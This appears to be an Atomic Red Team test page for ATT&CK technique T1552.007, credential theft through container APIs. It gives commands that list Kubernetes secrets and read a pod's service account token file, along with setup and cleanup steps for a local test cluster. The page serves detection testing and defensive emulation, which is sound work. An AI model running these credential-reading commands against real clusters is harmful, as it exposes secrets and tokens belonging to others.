 # T1552.007 - Container API
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1552/007)
<blockquote>Adversaries may gather credentials via APIs within a containers environment. APIs in these environments, such as the Docker API and Kubernetes APIs, allow a user to remotely manage their container resources and cluster components.(Citation: Docker API)(Citation: Kubernetes API)

An adversary may access the Docker API to collect logs that contain credentials to cloud, container, and various other resources in the environment.(Citation: Unit 42 Unsecured Docker Daemons) An adversary with sufficient permissions, such as via a pod's service account, may also use the Kubernetes API to retrieve credentials from the Kubernetes API server. These credentials may include those needed for Docker API authentication or secrets from Kubernetes cluster components. </blockquote>

## Atomic Tests

- [Atomic Test #1 - ListSecrets](#atomic-test-1---listsecrets)

- [Atomic Test #2 - Cat the contents of a Kubernetes service account token file](#atomic-test-2---cat-the-contents-of-a-kubernetes-service-account-token-file)


<br/>

## Atomic Test #1 - ListSecrets
A Kubernetes secret is an object that lets users store and manage sensitive information, such as passwords and connection strings in the cluster. Secrets can be consumed by reference in the pod configuration. Attackers who have permissions to retrieve the secrets from the API server (by using the pod service account, for example) can access sensitive information that might include credentials to various services.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 43c3a49d-d15c-45e6-b303-f6e177e44a9a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| namespace | K8s namespace to list | String | default|


#### Attack Commands: Run with `bash`! 


```bash
kubectl get secrets -n #{namespace}
```






<br/>
<br/>

## Atomic Test #2 - Cat the contents of a Kubernetes service account token file
Access the Kubernetes service account access token stored within a container in a cluster.

**Supported Platforms:** Linux


**auto_generated_guid:** 788e0019-a483-45da-bcfe-96353d46820f






#### Attack Commands: Run with `sh`! 


```sh
kubectl --context kind-atomic-cluster exec atomic-pod -- cat /run/secrets/kubernetes.io/serviceaccount/token
```

#### Cleanup Commands:
```sh
kubectl --context kind-atomic-cluster delete pod atomic-pod
```



#### Dependencies:  Run with `sh`!
##### Description: Verify docker is installed.
##### Check Prereq Commands:
```sh
which docker
```
##### Get Prereq Commands:
```sh
if [ "" == "`which docker`" ]; then echo "Docker Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install docker ; elif [ -n "`which yum`" ]; then sudo yum -y install docker ; fi ; else echo "Docker installed"; fi
```
##### Description: Verify docker service is running.
##### Check Prereq Commands:
```sh
sudo systemctl status docker
```
##### Get Prereq Commands:
```sh
sudo systemctl start docker
```
##### Description: Verify kind is in the path.
##### Check Prereq Commands:
```sh
which kind
```
##### Get Prereq Commands:
```sh
curl -Lo ./kind https://kind.sigs.k8s.io/dl/v0.10.0/kind-linux-amd64
chmod +x ./kind
mv kind /usr/bin/kind
```
##### Description: Verify kind-atomic-cluster is created
##### Check Prereq Commands:
```sh
sudo kind get clusters
```
##### Get Prereq Commands:
```sh
sudo kind create cluster --name atomic-cluster
```
##### Description: Verify kubectl is in path
##### Check Prereq Commands:
```sh
which kubectl
```
##### Get Prereq Commands:
```sh
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x ./kubectl
mv kubectl /usr/bin/kubectl
```
##### Description: Verify atomic-pod is running.
##### Check Prereq Commands:
```sh
kubectl --context kind-atomic-cluster get pods |grep atomic-pod
```
##### Get Prereq Commands:
```sh
kubectl --context kind-atomic-cluster run atomic-pod --image=alpine --command -- sleep infinity
```




<br/>
